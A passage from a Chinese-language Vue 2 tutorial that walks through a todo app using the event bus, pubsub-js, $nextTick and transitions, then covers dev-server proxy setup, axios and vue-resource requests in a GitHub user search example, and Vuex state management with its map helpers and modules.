1. 无需再用 props 接受父组件传递过来的 checkTodo、deleteTodo 函数

2. 使用全局事件总线`this.$bus.$emit`挂载 checkTodo、deleteTodo 函数

   ```vue
   <script>
   export default {
     name: 'MyItem',
     //声明接收todo
     props: ['todo'],
     methods: {
       handleCheck(id) {
         // 子传父通信（旧方法）
         // this.checkTodo(id)
         
         // 全局事件总线：this.$bus.$emit 挂载函数
         this.$bus.$emit('checkTodo', id)
       },
       handleDelete(id) {
         if (confirm('确定删除吗？')) {
           // 子传父通信（旧方法）
           // this.deleteTodo(id)
           
           // 全局事件总线：this.$bus.$emit 挂载函数
           this.$bus.$emit('deleteTodo', id)
         }
       }
     }
   }
   </script>
   ```

------

#### 2.10.5 应用：消息订阅与发布

> 需求：将`deleteTodo`函数改造成pubsub形式，影响：App、MyItem

##### 父组件：App.vue

1. 安装并导入`pubsub-js`

2. 在`mounted()`中使用`pubsub.subscribe`订阅deleteTodo函数

3. 在`beforeDestroy()`中使用`pubsub.unsubscribe`取消订阅deleteTodo函数

   ```vue
   <template>
     <div id="root">
       <div class="todo-container">
         <div class="todo-wrap">
           <MyHeader @addTodo="addTodo" />
           <MyList :todos="todos" />
           <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo" />
         </div>
       </div>
     </div>
   </template>
   
   <script>
   // 引入pubsub-js
   import pubsub from 'pubsub-js'
   import MyHeader from './components/MyHeader'
   import MyList from './components/MyList'
   import MyFooter from './components/MyFooter'
   
   export default {
     name: 'App',
     components: { MyHeader, MyList, MyFooter },
     data() {
       return {
         todos: JSON.parse(localStorage.getItem('todos')) || []
       }
     },
     methods: {
       // 添加一个todo
       addTodo(todoObj) {
         this.todos.unshift(todoObj)
       },
       // 勾选or取消勾选一个todo
       checkTodo(id) {
         this.todos.forEach(todo => {
           if (todo.id === id) todo.done = !todo.done
         })
       },
       // 删除一个todo（注意：由于使用了pubsub库，第一个参数默认是msgName，但如果不用的话会报错，所以用"_"占位）
       deleteTodo(_, id) {
         this.todos = this.todos.filter(todo => todo.id !== id)
       },
       // 全选or取消全选
       checkAllTodo(done) {
         this.todos.forEach(todo => {
           todo.done = done
         })
       },
       // 清除所有已经完成的todo
       clearAllTodo() {
         this.todos = this.todos.filter(todo => {
           return !todo.done
         })
       }
     },
     watch: {
       todos: {
         deep: true,
         handler(value) {
           localStorage.setItem('todos', JSON.stringify(value))
         }
       }
     },
     mounted() {
       this.$bus.$on('checkTodo', this.checkTodo)
       // 订阅deleteTodo函数
       this.pubId = pubsub.subscribe('deleteTodo', this.deleteTodo)
     },
     beforeDestroy() {
       this.$bus.$off('checkTodo')
       // 取消订阅deleteTodo函数
       pubsub.unsubscribe(this.pubId)
     }
   }
   </script>
   ```

##### 孙组件：MyItem.vue

1. 安装并导入`pubsub-js`

2. 在`method()`对应的函数中使用`pubsub.publish`发布deleteTodo函数

   ```vue
   <script>
   import pubsub from 'pubsub-js'
   export default {
     name: 'MyItem',
     //声明接收todo
     props: ['todo'],
     methods: {
       //勾选or取消勾选
       handleCheck(id) {
         // 子传父通信（旧方法）：通知App组件将对应的todo对象的done值取反
         // this.checkTodo(id)
         // 全局事件总线：this.$bus.$emit 挂载函数
         this.$bus.$emit('checkTodo', id)
       },
       //删除
       handleDelete(id) {
         if (confirm('确定删除吗？')) {
           // 子传父通信（旧方法）：通知App组件将对应的todo对象删除
           // this.deleteTodo(id)
           
           // 全局事件总线：this.$bus.$emit 挂载函数
           // this.$bus.$emit('deleteTodo', id)
           
           // 消息订阅与发布：pubsub.publish
           pubsub.publish('deleteTodo', id)
         }
       }
     }
   }
   </script>
   ```

------

#### 2.10.6 应用：nextTick

> 需求：为每项todo数据添加“编辑按钮”，输入完毕失去焦点后即编辑完成，影响：App、MyItem

##### 父组件：App.vue

1. 定义更新数据的函数`updateTodo`

   ```js
   updateTodo(id, title) {
     this.todos.forEach(todo => {
       if (todo.id === id) todo.title = title
     })
   },
   ```

2. 使用全局事件总线，在mounted()与beforeDestroy()中挂载、解绑事件

   ```js
   mounted() {
     this.$bus.$on('checkTodo', this.checkTodo)
     // 挂载updateTodo
     this.$bus.$on('updateTodo', this.updateTodo)
     this.pubId = pubsub.subscribe('deleteTodo', this.deleteTodo)
   },
   beforeDestroy() {
     this.$bus.$off('checkTodo')
     // 解绑updateTodo
     this.$bus.$off('updateTodo')
     pubsub.unsubscribe(this.pubId)
   }
   ```

3. 添加对应的css样式

   ```css
   .btn-edit {
     color: #fff;
     background-color: skyblue;
     border: 1px solid rgb(103, 159, 180);
     margin-right: 5px;
   }
   ```

##### 孙组件：MyItem.vue

1. 为todo数据添加`isEdit`属性（布尔值），根据`v-show="!todo.isEdit"`判断是否要显示当前元素

   1）使用`bject.prototype.hasOwnProperty`判断todo是否有`isEdit`属性，如果有，则隐藏原有的`<span>`，并显示输入框`<input>`

   2）如果没有，则用`$set`为todo添加`isEdit`为true的属性

2. 点击编辑按钮`<button>`后，隐藏编辑按钮，显示输入框`<input>`并自动获取焦点，但由于`<input>`获取焦点的动作需要在DOM更新后完成，此处需要借助`this.$nextTick(回调函数)`

3. 在输入框`<input>`编辑完毕后，鼠标移开失去焦点，认为编辑完毕，页面恢复原样，重新显示`<span>`和编辑按钮`<button>`

   ```vue
   <template>
     <li>
       <label>
         <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)" />
         <!-- 添加显示条件v-show，只有处于非编辑状态时，才会显示span -->
         <span v-show="!todo.isEdit">{{todo.title}}</span>
         <!-- 新增编辑输入框input，设置显示条件，定义失去焦点即完成编辑的函数，添加ref -->
         <!-- 注意：这里可以使用$event来传递事件参数 -->
         <input
           type="text"
           v-show="todo.isEdit"
           :value="todo.title"
           @blur="handleBlur(todo,$event)"
           ref="inputTitle"
         />
       </label>
       <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
       <!-- 新增编辑按钮，设置显示条件，定义点击后编辑函数 -->
       <button v-show="!todo.isEdit" class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
     </li>
   </template>
   
   <script>
   import pubsub from 'pubsub-js'
   export default {
     name: 'MyItem',
     props: ['todo'],
     methods: {
       handleCheck(id) {
         this.$bus.$emit('checkTodo', id)
       },
       handleDelete(id) {
         if (confirm('确定删除吗？')) {
           pubsub.publish('deleteTodo', id)
         }
       },
       
       // 编辑
       handleEdit(todo) {
         // 先判断todo身上是否已经有isEdit属性
         // Object.prototype.hasOwnProperty()返回一个布尔值，指示对象自身属性中是否具有指定的属性
         // if (todo.hasOwnProperty('isEdit')) {   // 这样写ESlint会报错
         if (Object.prototype.hasOwnProperty.call(todo, 'isEdit')) {
           todo.isEdit = true
         } else {
           // 注意：需要用$set给todos追加属性，才能是响应式的
           this.$set(todo, 'isEdit', true)
         }
         // 让input框获取焦点，$nextTick中的回调函数会在DOM节点更新后执行（用定时器setTimeout也能实现）
         this.$nextTick(function() {
           // 如果不加$nextTick,Vue会等handleEdit中的所有代码执行完毕后再渲染模板，而此时input框还没出来，所以无法获取焦点
           this.$refs.inputTitle.focus()
         })
       },
       
       //失去焦点回调（真正执行修改逻辑）
       handleBlur(todo, e) {
         // 注意：这里之所以不用$set，是因为肯定是先点击handleEdit才能是handleBlur，必然已经有isEdit属性
         todo.isEdit = false
         if (!e.target.value.trim()) return alert('输入不能为空！')
         this.$bus.$emit('updateTodo', todo.id, e.target.value)
       }
     }
   }
   </script>
   ```

------

#### 2.10.7 应用：动画效果

> 需求：为todo数据项添加进入效果，影响：MyList

##### 子组件：MyList.vue

1. 多个元素需要过度，用`<transition-group>`包裹要过度的元素，配置name属性，且每个元素都要指定key值

   ```vue
   <template>
     <ul class="todo-main">
       <!-- 包裹MyItem -->
       <transition-group name="todo" appear>
         <MyItem v-for="todoObj in todos" :key="todoObj.id" :todo="todoObj" />
       </transition-group>
     </ul>
   </template>
   ```

2. 编写css动画样式

   ```css
   .todo-enter-active {
     animation: atguigu 0.5s linear;
   }
   
   .todo-leave-active {
     animation: atguigu 0.5s linear reverse;
   }
   
   @keyframes atguigu {
     from {
       transform: translateX(100%);
     }
     to {
       transform: translateX(0px);
     }
   }
   ```


------

## 第3章 Vue配置代理

> 配置代理服务器：服务器之间通信不受同源策略限制，只有浏览器和服务器之间通信受限

### 3.1 [vue.config.js](https://cli.vuejs.org/zh/config/#devserver-proxy)

> 修改vue.config.js后要重启

#### 3.1.1 配置方法1

1. 语法：`devServer:{ proxy:"代理目标服务器URL" }`

2. 优点：配置简单，请求资源时直接发给前端（`8080`）即可

3. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理

4. 注意：当请求了前端不存在的资源时，请求才会转发给服务器 ，否则会优先匹配public文件夹中的静态资源

   ```js
   module.exports = {
     pages: {
       index: {
         //入口
         entry: 'src/main.js',
       },
     },
     lintOnSave: false, //关闭语法检查
   
     // 开启代理服务器（方式一）：只能控制单个服务器，且只有public文件夹中找不到资源时才会请求代理服务器
     devServer: {
       proxy: 'http://localhost:5000'
     },
   ```

#### 3.2.2 配置方法2

1. 语法：`devServer: { proxy: { '/address': { 参数... }, } }`

2. 参数：

   1）`/address`：请求资源的前缀，匹配所有以address开头的请求路径

   2）`target`：代理目标服务器URL

   3）`pathRewrite`：用于重写路径，否则请求服务器URL中会带有/address，路径错误；如：pathRewrite: { '^/address': '' }

   4）`ws`: true；用于支持websocket

   5）`changeOrigin`：布尔值，用于控制请求头中的host值

   * ture(默认)：谎称与服务器同源URL
   * false：真实URL

3. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理

4. 缺点：配置略微繁琐，请求资源时必须加前缀

   ```js
   module.exports = {
     pages: {
       index: {
         //入口
         entry: 'src/main.js',
       },
     },
     lintOnSave: false, //关闭语法检查
     
     //开启代理服务器（方式二）
     devServer: {
       proxy: {
         '/atguigu': {
           target: 'http://localhost:5000',
           pathRewrite: { '^/atguigu': '' }, // 重写路径，不然后端服务器路径错误
           // ws: true, //用于支持websocket
           // changeOrigin: true //用于控制请求头中的host值，如果为false则如实回答，如果是ture(默认)则谎称与服务器同源
         },
         '/demo': {
           target: 'http://localhost:5001',
           pathRewrite: { '^/demo': '' },
           // ws: true, //用于支持websocket
           // changeOrigin: true //用于控制请求头中的host值
         },
       },
     },
   }
   ```

------

### 3.2 发送Ajax请求

1. 发送ajax请求的方法

   1）XHR

   2）jQuery

   3）axios：推荐

   4）fetch：兼容性不好

   5）vue-resource：vue插件，用Vue.use(...)

2. 安装：

   ```bash
   npm i axios
   ```

3. 解决跨域问题的方法

   1）CORS：后端开发人员添加响应头

   2）jsonp：只有GET请求

   3）配置代理服务器：服务器之间通信不受同源策略限制，只有浏览器和服务器之间通信受限

4. 前端axios请求写法：父组件App.vue

   ```vue
   <template>
     <div>
       <button @click="getStudents">获取学生信息</button>
       <button @click="getCars">获取汽车信息</button>
     </div>
     <!-- 
       开启代理服务器：devServer.proxy（需要在vue.config.js中配置）
       官方文档：https://cli.vuejs.org/zh/config/#devserver-proxy
     -->
   </template>
   
   <script>
   import axios from 'axios'
   export default {
     name: 'App',
     methods: {
       getStudents() {
         axios.get('http://localhost:8080/atguigu/students').then(
           response => {
             console.log('请求成功了', response.data)
           },
           error => {
             console.log('请求失败了', error.message)
           }
         )
       },
       getCars() {
         axios.get('http://localhost:8080/demo/cars').then(
           response => {
             console.log('请求成功了', response.data)
           },
           error => {
             console.log('请求失败了', error.message)
           }
         )
       }
     }
   }
   </script>
   ```

------

### 3.3 案例：Github用户搜索

> 使用bootstrap框架搭建，需要在index.html中引入css样式
>
> API地址：https://api.github.com/search/users?q=username

#### 3.3.1 使用Axios

1. 子组件：Search.vue，搜索框

   1）全局事件总线：`$bus.$emit`挂载 updateListData，传递 `{ isLoading: true, errMsg: '', users: [], isFirst: false }`

   2）axios发送GET请求

   * 成功：`$bus.$emit`挂载 updateListData，传递 `{ isLoading: false, errMsg: '', users: response.data.items }`
   * 失败：`$bus.$emit`挂载 updateListData，传递 `{ isLoading: false, errMsg: error.message, users: [] }`

   ```vue
   <template>
     <section class="jumbotron">
       <h3 class="jumbotron-heading">Search Github Users</h3>
       <div>
         <input type="text" placeholder="enter the name you search" v-model="keyWord" />&nbsp;
         <button @click="searchUsers">Search</button>
       </div>
     </section>
   </template>
   
   <script>
   import axios from 'axios'
   export default {
     name: 'Search',
     data() {
       return {
         keyWord: ''
       }
     },
     methods: {
       searchUsers() {
         // 请求前更新List的数据：正在加载、取消欢迎词
         this.$bus.$emit('updateListData', { isLoading: true, errMsg: '', users: [], isFirst: false })
         // 模板字符串
         axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
           response => {
             console.log('请求成功了')
             //请求成功后更新List的数据
             this.$bus.$emit('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
           },
           error => {
             //请求后更新List的数据
             this.$bus.$emit('updateListData', { isLoading: false, errMsg: error.message, users: [] })
           }
         )
       }
     }
   }
   </script>
   
   ```

2. 子组件：List.vue，初始化时显示欢迎词，展示搜索结果

   1）data()中创建`info`对象：包含isFirst用于控制欢迎词，以及承接Search.vue传递过来的`updateListData`数据

   * isFirst：true，是否初次展示
   * isLoading：false，是否加载中
   * errMsg：错误信息
   * users：[]，用户数组

   2）全局事件总线`$bus.$on`，接受Search.vue传递过来的`updateListData`数据

   ```vue
   <template>
     <div class="row">
       <!-- 展示用户列表 -->
       <div v-show="info.users.length" class="card" v-for="user in info.users" :key="user.login">
         <a :href="user.html_url" target="_blank">
           
         </a>
         <p class="card-text">{{user.login}}</p>
       </div>
       <!-- 展示欢迎词 -->
       <h1 v-show="info.isFirst">欢迎使用！</h1>
       <!-- 展示加载中 -->
       <h1 v-show="info.isLoading">加载中....</h1>
       <!-- 展示错误信息 -->
       <h1 v-show="info.errMsg">{{info.errMsg}}</h1>
     </div>
   </template>
   
   <script>
   export default {
     name: 'List',
     data() {
       return {
         info: {
           isFirst: true, //是否初次展示
           isLoading: false, //是否加载中
           errMsg: '', //错误信息
           users: []
         }
       }
     },
     mounted() {
       this.$bus.$on('updateListData', dataObj => {
         // 扩展运算符：可以展开对象，如果属性重名，以后面的为主
         this.info = { ...this.info, ...dataObj }
       })
     }
   }
   </script>
   
   <style scoped>
   .album {
     min-height: 50rem;
     padding-top: 3rem;
     padding-bottom: 3rem;
     background-color: #f7f7f7;
   }
   
   .card {
     float: left;
     width: 33.333%;
     padding: 0.75rem;
     margin-bottom: 2rem;
     border: 1px solid #efefef;
     text-align: center;
   }
   
   .card > img {
     margin-bottom: 0.75rem;
     border-radius: 100px;
   }
   
   .card-text {
     font-size: 85%;
   }
   </style>
   ```

3. 父组件：App.vue

   ```vue
   <template>
     <!-- 注意：由于index.html中已有<div id="app">，所以要避免重名 -->
     <div class="container">
       <Search />
       <List />
     </div>
     <!-- 注意：本项目用到了bootstrap，需要放在public/css/bootstrap.css，然后再index.html中引入 -->
   </template>
   
   <script>
   import Search from './components/Search'
   import List from './components/List'
   export default {
     name: 'App',
     components: { Search, List }
   }
   </script>
   ```

4. 入口文件：main.js

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App.vue'
   //关闭Vue的生产提示
   Vue.config.productionTip = false
   
   //创建vm
   new Vue({
     el: '#app',
     render: (h) => h(App),
     // 全局事件总线
     beforeCreate() {
       Vue.prototype.$bus = this
     },
   })
   ```

#### 3.3.2 使用vue-resource

1. 子组件：Search.vue，将`axios`替换为`this.$http`

   ```vue
   <template>
     <section class="jumbotron">
       <h3 class="jumbotron-heading">Search Github Users</h3>
       <div>
         <input type="text" placeholder="enter the name you search" v-model="keyWord" />&nbsp;
         <button @click="searchUsers">Search</button>
       </div>
     </section>
   </template>
   
   <script>
   export default {
     name: 'Search',
     data() {
       return {
         keyWord: ''
       }
     },
     methods: {
       searchUsers() {
         this.$bus.$emit('updateListData', { isLoading: true, errMsg: '', users: [], isFirst: false })
         // axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
         this.$http.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
           response => {
             console.log('请求成功了')
             this.$bus.$emit('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
           },
           error => {
             this.$bus.$emit('updateListData', { isLoading: false, errMsg: error.message, users: [] })
           }
         )
       }
     }
   }
   </script>
   
   ```

2. 入口文件：main.js

   1）引入插件：`import vueResource from 'vue-resource'`

   2）使用插件：`Vue.use(vueResource)`

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   //引入插件
   import vueResource from 'vue-resource'
   Vue.config.productionTip = false
   //使用插件
   Vue.use(vueResource)
   
   new Vue({
     el: '#app',
     render: (h) => h(App),
     beforeCreate() {
       Vue.prototype.$bus = this
     },
   })
   ```

------

## 第4章 Vuex

> [Vuex](https://github.com/vuejs/vuex)：在Vue中实现集中式状态（数据）管理的一个Vue插件，适用于任意组件间通信。

### 4.1 Vuex简介

1. 安装：

   1）vue2中，要用vuex3版本

   ```bash
   npm i vuex@3
   ```

   2）vue3中，要用vuex4版本

   ```bash
   npm i vuex@4
   ```

2. 应用场景：多个组件需要共享数据时

3. 工作流：

   

------

### 4.2 搭建环境

1. `store/index.js`：用于创建Vuex中最为核心的store

   1）引入

   ```js
   // 该文件用于创建Vuex中最为核心的store
   import Vue from 'vue'
   // 引入Vuex
   import Vuex from 'vuex'
   // 应用Vuex插件
   Vue.use(Vuex)
   ```

   2）准备

   * `actions`对象（服务员）：用于响应组件中的动作
   * `mutations`对象（后厨）：用于操作数据（state）
   * `state`对象（菜）：用于存储数据
   * `getters`对象：用于将state中的数据进行加工

   ```js
   // 准备actions：用于响应组件中的动作
   const actions = {...}
   // 准备mutations：用于操作数据（state）
   const mutations = {...}
   // 准备state：用于存储数据
   const state = {...}
   //准备getters：用于将state中的数据进行加工
   const getters = {...}
   ```

   3）暴露`store`

   ```js
   // 创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
       getters
   })
   ```

2. `main.js`：入口文件

   1）引入`vue-resource`插件

   2）引入`store`：如果store文件夹下只有index.js，可以将`.store/index.js`简写为`./store`

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   // 引入插件
   import vueResource from 'vue-resource'
   // 引入store（如果store文件夹下只有index.js，可以简写为./store）
   import store from './store'
   
   Vue.config.productionTip = false
   // 使用插件
   Vue.use(vueResource)
   
   // 创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
       // 挂载store，用于管理vuex中的三个对象
   	store,
   	beforeCreate() {
   		Vue.prototype.$bus = this
   	}
   })
   ```

------

### 4.3 核心API

#### 4.3.1 $store

> 子组件 components.vue 使用`$store`访问Vuex中的对象和方法

1. `$store.state.xxx`：调用`state`对象中的数据

2. `$store.dispatch`方法：调用`actions`对象中定义的函数

3. `$store.commit`方法：跳过actions，直接调用`mutations`对象中定义的函数

   ```html
   <button @click="increment">+</button>
   <button @click="decrement">-</button>
   <button @click="incrementOdd">当前求和为奇数再加</button>
   <button @click="incrementWait">等一等再加</button>
   ```

   ```js
   methods: {
     increment() {
       // 使用commit方法，绕过actions，直接调用mutations中的函数
       this.$store.commit('JIA', this.n)
     },
     decrement() {
       this.$store.commit('JIAN', this.n)
     },
     incrementOdd() {
       // 使用dispatch方法，通过actions，调用mutations中的函数
       this.$store.dispatch('jiaOdd', this.n)
     },
     incrementWait() {
       this.$store.dispatch('jiaWait', this.n)
     }
   },
   ```

#### 4.3.2 actions

> `actions`对象：用于响应组件中的动作，可以包含异步代码（定时器，ajax等） 

1. context：

   1）在action里面定义的函数第一个参数默认是`context`，如`function(context,value)`，相当于迷你版的store

   2）context上面有`commit`、`dispatch`、`state`、`getters`、`rootGetters`、`rootState`等

2. state：在`context`上可使用`state`属性访问数据

3. commit：在`context`上可使用`commit`方法调用`mutations`对象中定义的函数，如`context.commit(functionName, value)`

   ```js
   const actions = {
     jiaOdd(context, value) {
       console.log('actions中的jiaOdd被调用了')
       if (context.state.sum % 2) {
         context.commit('JIA', value)
       }
     },
     jiaWait(context, value) {
       console.log('actions中的jiaWait被调用了')
       setTimeout(() => {
         context.commit('JIA', value)
       }, 500)
     },
   }
   ```

4. dispatch：在`context`上可使用`dispatch`方法，用于actions中的函数嵌套（接力），如果一个函数逻辑太复杂，可以分很多函数写

   ```js
   const actions = {
     func1(context, value) {
       console.log('处理了100行代码...')
       // dispatch，让func2继续处理
       context.dispatch('func2', value)
     },
     func2(context, value) {
       console.log('处理了100行代码...')
       // dispatch，让func3继续处理
       context.dispatch('func3', value)
     },
     func3(context, value) {
       console.log('处理了100行代码...')
       // dispatch，让func4继续处理
       context.dispatch('func4', value)
     },
   }
   ```

#### 4.3.3 mutations

> `mutations`对象：用于操作数据（state），可以用开发者工具调试

1. 里面定义的函数第一个参数默认是`state`，第二个参数是接受子组件传递过来的参数，可以命名为`value`

2. 不要在mutations里发送ajax请求，不能写异步代码，只能单纯的操作`state`

   ```js
   const mutations = {
     JIA(state, value) {
       console.log('mutations中的JIA被调用了')
       state.sum += value
     },
     JIAN(state, value) {
       console.log('mutations中的JIAN被调用了')
       state.sum -= value
     },
   }
   ```

#### 4.3.4 state

> `state`对象：用于存储数据，类似于data()的功能

1. Vuex文件 store/index.js：定义state

   ```js
   const state = {
     sum:0, //当前的和
     school:'尚硅谷',
     subject:'前端'
   }
   ```

2. 子组件 Count.vue：通过`$store.state.xxx`访问数据

   ```html
   <h1>当前求和为：{{$store.state.sum}}</h1>
   ```

#### 4.3.5 getters

> `gettes对象`：用于将state中的数据进行加工，包含多个用于返回数据的函数，可接受`state`参数，类似于computed计算属性

1. Vuex文件 store/index.js：定义getters

   ```js
   const getters = {
   	bigSum(state){
   		return state.sum * 10
   	}
   }
   ```

2. 子组件 Count.vue：通过`$store.getters.xxx`访问其中的函数

   ```html
   <h3>当前求和放大10倍为：{{$store.getters.bigSum}}</h3>
   ```


#### 4.3.6 mapState/mapGetters

> 用于简化子组件从store中读取`state`数据和`getters`方法，令插值语法更加简洁，效果等同于computed计算属性

1. `mapState`：生成计算属性，从state中读取数据

   1）对象写法：可以自定义名称

   ```js
   ...mapState({he:'sum',xuexiao:'school',xueke:'subject'})
   ```

   ```js
   // 等同于以下写法
   computed:{
   	sum(){
   		return this.$store.state.sum
   	},
   	school(){
   		return this.$store.state.school
   	},
   	subject(){
   		return this.$store.state.subject
   	},
   }
   ```

   2）数组写法：使用state中定义好的名称

   ```js
   ...mapState(['sum','school','subject']),
   ```

2. `mapGetters`：生成计算属性，从getters中读取数据

   1）对象写法：可以自定义名称

   ```js
   ...mapGetters({bigSum:'bigSum'})
   ```

   ```js
   // 等同于以下写法
   computed: {
     bigSum() {
       return this.$store.getters.bigSum
     },
   }
   ```

   2）数组写法：使用state中定义好的名称

   ```js
   ...mapGetters(['bigSum'])
   ```

3. 子组件 Count.vue

   1）引入`mapState`和`mapGetters`

   ```js
   import {mapState,mapGetters} from 'vuex'
   ```

   2）在计算属性`computed`中定义`mapState`和`mapGetters`

   ```js
   computed:{
   	// mapState：生成计算属性，从state中读取数据
       // 对象写法：可以自定义名称
   	// ...mapState({he:'sum',xuexiao:'school',xueke:'subject'}),
   	// 数组写法：使用state中定义好的名称
   	...mapState(['sum','school','subject']),
   	
   	// mapGetters：生成计算属性，从getters中读取数据
       // 对象写法：可以自定义名称
   	// ...mapGetters({bigSum:'bigSum'})
   	// 数组写法：使用state中定义好的名称
   	...mapGetters(['bigSum'])
   },
   ```

   3）插值语法渲染元素

   ```html
   <!-- <h1>当前求和为：{{$store.state.sum}}</h1> -->
   <h1>当前求和为：{{sum}}</h1>
   <!-- <h3>当前求和放大10倍为：{{$store.geters.bigSum}}</h3> -->
   <h3>当前求和放大10倍为：{{bigSum}}</h3>
   <!-- <h3>我在{{$store.school}}，学习{{$store.subject}}</h3> -->
   <h3>我在{{school}}，学习{{subject}}</h3>
   ```

#### 4.3.7 mapMutations/mapActions

> 用于简化子组件从store中读取`mutations`和`actions`方法，令插值语法更加简洁，效果等同于methods事件处理

1. `mapMutations`：生成对应的方法，方法中会调用`commit`去联系`mutations`【注意：需要传参的话，要在插值语法中传递，否则默认传递`event`】

   1）对象写法：名称与插值语法中使用的名称一致

   ```js
   ...mapMutations({increment:'JIA',decrement:'JIAN'}),
   ```

   ```js
   // 等同于以下写法
   methods: {
     increment() {
       this.$store.commit('JIA', this.n)
     },
     decrement() {
       this.$store.commit('JIAN', this.n)
     },
   }
   ```

   2）数组写法：插值语法中的函数名需要与数组中的名称保持一致，即increment改为JIA、decrement改为JIAN

   ```js
   ...mapMutations(['JIA','JIAN']),
   ```

2. `mapActions`：生成对应的方法，方法中会调用`dispatch`去联系`actions`【注意：需要传参的话，要在插值语法中传递，否则默认传递`event`】

   1）对象写法：名称与插值语法中使用的名称一致

   ```js
   ...mapActions({ incrementOdd: 'jiaOdd', incrementWait: 'jiaWait' })
   ```

   ```js
   // 等同于以下写法
   methods: {
     incrementOdd() {
       this.$store.dispatch('jiaOdd', this.n)
     },
     incrementWait() {
       this.$store.dispatch('jiaWait', this.n)
     },
   }
   ```

   2）数组写法：插值语法中的函数名需要与数组中的名称保持一致，即incrementOdd改为jiaOdd、incrementWait改为jiaWait

   ```js
   ...mapActions(['jiaOdd','jiaWait'])
   ```

3. 子组件 Count.vue

   1）引入`mapMutations`和`mapActions`

   ```js
   import { mapState, mapGetters, mapMutations, mapActions } from 'vuex'
   ```

   2）在事件处理`methods()`中定义`mapMutations`和`mapActions`

   ```js
   methods: {
     // mapMutations：生成对应的方法，方法中会调用commit去联系mutations
     // 对象写法
     ...mapMutations({ increment: 'JIA', decrement: 'JIAN' }),
     // 数组写法
     // ...mapMutations(['JIA','JIAN']),
     
     //mapActions：生成对应的方法，方法中会调用dispatch去联系actions
     // 对象写法
     ...mapActions({ incrementOdd: 'jiaOdd', incrementWait: 'jiaWait' })
     // 数组写法
     // ...mapActions(['jiaOdd','jiaWait'])
   },
   ```

   3）插值语法渲染元素：需要传递参数！

   ```vue
   <button @click="increment(n)">+</button>
   <button @click="decrement(n)">-</button>
   <button @click="incrementOdd(n)">当前求和为奇数再加</button>
   <button @click="incrementWait(n)">等一等再加</button>
   ```


------

### 4.4 多组件共享

> 多个子组件都可以通过`store`访问与调用Vuex文件：index.js中的数据和方法。

1. Vuex文件：store/index.js

   1）在 `mutations` 中添加 `ADD_PERSONS` 函数

   2）在 `state` 中添加 `personList` 数据

   ```js
   const mutations = {
     ......
     // 添加add_person函数，接受子组件中传递过来的数据，存入state中的personList
     ADD_PERSON(state, value) {
       console.log('mutations中的ADD_PERSON被调用了')
       state.personList.unshift(value)
     },
   }
   
   const state = {
     ......
     // 新增personList数据
     personList: [{ id: '001', name: '张三' }],
   }
   ```

2. 新增子组件：Person.vue

   1）需求：输入名字，点击按钮新增人员

   2）引入`nanoid`插件

   3）在`computed`中引入`state`里的`personList`和`sum`数据

   4）在`method`中使用`commit`调用`mutations`中的`ADD_PERSONS`函数

   5）插值语法渲染，引入`sum`、`personList`数据

   ```vue
   <template>
     <div>
       <h1>人员列表</h1>
       <h3 style="color:red">Count组件求和为：{{sum}}</h3>
       <input type="text" placeholder="请输入名字" v-model="name" />
       <button @click="add">添加</button>
       <ul>
         <li v-for="p in personList" :key="p.id">{{p.name}}</li>
       </ul>
     </div>
   </template>
   
   <script>
   import { nanoid } from 'nanoid'
   export default {
     name: 'Person',
     data() {
       return {
         name: ''
       }
     },
     computed: {
       // 引入state里的personList和sum数据
       personList() {
         return this.$store.state.personList
       },
       sum() {
         return this.$store.state.sum
       }
     },
     methods: {
       // 使用commit调用mutations中的ADD_PERSONS函数
       add() {
         const personObj = { id: nanoid(), name: this.name }
         this.$store.commit('ADD_PERSON', personObj)
         this.name = ''
       }
     }
   }
   </script>
   ```

3. 原子组件：Count.vue

   1）在`mapState`中引入新增的`personList`数据

   ```js
   computed: {
     ...mapState(['sum', 'school', 'subject', 'personList']),
   },
   ```

   2）插值语法渲染，引入新增的`personList`数据

   ```html
   <h3 style="color:red">Person组件的总人数是：{{personList.length}}</h3>
   ```

4. 父组件：App.vue

   1）新增组件结构`<Person/>`

   2）引入Person.vue子组件

   ```vue
   <template>
   	<div>
   		<Count/>
   		<hr>
   		<Person/>
   	</div>
   </template>
   
   <script>
   	import Count from './components/Count'
   	import Person from './components/Person'
   
   	export default {
   		name:'App',
   		components:{Count,Person},
   	}
   </script>
   ```

------

### 4.5 模块化编码

> 将Vuex文件拆分成多个功能模块，让代码更好维护，让多种数据分类更加明确。
>
> * state：`this.$store.state.自定义模块名.数据名` 或 `...mapState('自定义模块名',['数据名1','数据名2',...])`
> * getters：`this.$store.getters['自定义模块名/函数名']` 或 `...mapGetters('自定义模块名',['函数名1','函数名2',...])`
> * mutations：`this.$store.commit('自定义模块名/函数名', 数据)` 或 `...mapMutations('自定义模块名',['函数名1','函数名2',...])`
> * actions：`this.$store.dispatch('自定义模块名/函数名', 数据)` 或 `...mapActions('自定义模块名',['函数名1','函数名2',...])`

1. Vuex汇总文件：store/index.js

   1）将各组件的actions、mutations、state、getters拆分成不同js模块文件

   2）导入各个模块文件

   3）暴露模块，可自定义名称

   ```js
   import Vue from 'vue'
   import Vuex from 'vuex'
   // 导入各个模块文件
   import countOptions from './count'
   import personOptions from './person'
   Vue.use(Vuex)
   
   export default new Vuex.Store({
     // 暴露模块，可自定义名称
     modules: {
       countAbout: countOptions,
       personAbout: personOptions,
     },
   })
   ```

2. Vuex模块文件：count.js、person.js

   1）默认暴露actions、mutations、state、getters等配置项

   2）`namespaced`：命名空间，可以自定义模块名称，默认为false，开启命名空间：`namespaced: true`

   ```js
   export default {
     // 命名空间：可以自定义模块名称，默认为false
     namespaced: true,
     actions: {
       ......
     },
     mutations: {
       ......
     },
     state: {
       ......
     },
     getters: {
       ......
     },
   }
   ```

